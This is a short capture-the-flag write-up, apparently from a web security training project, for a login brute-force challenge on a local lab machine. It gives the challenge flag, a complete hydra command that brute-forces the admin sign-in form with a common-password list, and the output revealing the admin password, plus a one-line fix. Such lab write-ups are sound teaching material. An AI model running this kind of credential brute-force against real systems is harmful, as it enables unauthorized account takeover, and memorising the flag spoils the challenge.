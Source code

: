 # BRUTEFORCEEEEEEEEEEEEEEE - 2E Edition

## Flag

B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

## Description

After the 11th episode, we noticed that we get the Admin section in a non-intended way, so lets release the hydra a second time.
After all, what could possibly go wrong ? :)

## URL

http://192.168.56.101/?page=signin

## Steps To Reproduce

Let's do it fast, payload :
`hydra -t 64 -l admin -P 1000-most-common-passwords.txt 192.168.56.101 http-get-form '/:page=signin&username=^USER^&password=^PASS^&Login=Login:Wrong'`
password : [80][http-get-form] host: 192.168.56.101   login: admin   password: shadow

So we login with admin/shadow as credentials.
As the great Julien lepers would say, along with Daft Punk, "One more time, Oui oui oui !"

## Why is it dangerous ?

"I can rly be admin for free ? O sweet"

## Possible fixes

- Don't be a chicken, choose a secure password. (Or do youtube videos about your "disruptive" startup bankerupt, it's up to you)

## Resources

- 1000-most-common-passwords.txt (Ressources folder)

## Sources

https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/